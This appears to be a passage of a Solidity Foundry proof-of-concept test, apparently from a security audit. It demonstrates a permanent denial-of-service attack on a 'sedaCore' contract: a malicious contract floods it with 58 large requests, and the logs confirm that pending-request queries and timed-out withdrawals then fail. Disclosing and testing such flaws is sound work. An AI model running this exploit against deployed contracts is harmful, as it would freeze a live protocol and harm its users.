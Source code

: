 ```solidity
    function deployProxy(address implementation, bytes memory initData) internal returns (address) {
        bytes memory code = abi.encodePacked(
            hex"3d602d80600a3d3981f3363d3d373d3d3d363d73",
            implementation,
            hex"5af43d82803e903d91602b57fd5bf3"
        );
        
        address proxy;
        assembly {
            proxy := create(0, add(code, 0x20), mload(code))
        }
        
        (bool success, ) = proxy.call(initData);
        require(success, "Initialization failed");
        
        return proxy;
    }
    
    function testPermanentDoSAttack() public {
        // Deploy malicious contract
        MaliciousRequester maliciousContract = new MaliciousRequester(
            sedaCore,
            largeInput,
            largeFilter
        );
        
        // Fund malicious contract
        vm.deal(address(maliciousContract), 10 ether);
        
        // Create enough requests to cause DoS (58 requests with large data)
        maliciousContract.createRequests{value: 1 wei}(58);
        
        console.log("Created 58 requests from malicious contract");
        
        // Verify DoS condition
        vm.startPrank(normalUser);
        try sedaCore.getPendingRequests(0, 1) {
            console.log("getPendingRequests still works (unexpected)");
        } catch {
            console.log("ATTACK SUCCESSFUL: getPendingRequests(0, 1) fails as expected");
        }
        vm.stopPrank();
        
        // Now try to clean up a request after timeout
        // Fast forward past timeout period
        vm.warp(block.timestamp + timeoutPeriod + 1);
        
        // Get first request ID
        bytes32 firstRequestId = maliciousContract.getRequestId(0);
        console.log("Attempting to withdraw timed-out request");
        
        // Try to withdraw the timed-out request
        vm.startPrank(normalUser);
        try sedaCore.withdrawTimedOutRequest(firstRequestId) {
            console.log("UNEXPECTED: Withdrawal succeeded");
        } catch Error(string memory reason) {
            console.log("Withdrawal failed with reason: %s", reason);
        } catch (bytes memory) {
            console.log("Withdrawal failed with low-level error (expected)");
            console.log("PERMANENT DOS CONFIRMED: Cannot clean up requests");
        }
        vm.stopPrank();
```